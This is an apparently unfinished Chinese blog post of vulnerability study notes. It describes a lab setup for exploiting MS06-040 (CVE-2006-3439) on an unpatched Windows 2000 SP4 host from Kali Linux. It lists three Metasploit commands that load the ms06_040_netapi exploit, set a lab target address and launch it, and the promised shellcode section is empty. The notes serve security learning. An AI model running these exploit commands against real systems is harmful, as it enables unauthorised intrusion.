 ```yaml
---
title: 漏洞学习笔记-005-Metasploit制作ShellCode
description: Metasploit制作ShellCode
date: 2020-10-20 22:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-005-Metasploit制作ShellCode/)

...未完待续(Metasploit旧版本真难找)...

## 入侵Windows实验

### 实验介绍

> MS06-040，CVE-2006-3439

|  | 推荐的环境 | 备注 |
|-|-|-|
| 攻击机系统 | Kali Linux 2021.1 | |
| 目标主机系统 | Windows 2000 SP4 | |
| 补丁版本 | KB921883 | 确保目标主机未安装补丁 |
| 网络环境 | 可互相ping通 | 确保无防火墙干扰 |

### 命令行界面漏洞测试

- `use exploit/windows/smb/ms06_040_netapi`
- `set rhosts 10.211.55.5`
- `exploit`

## 使用MetaSploit制作ShellCode

...未完待续...
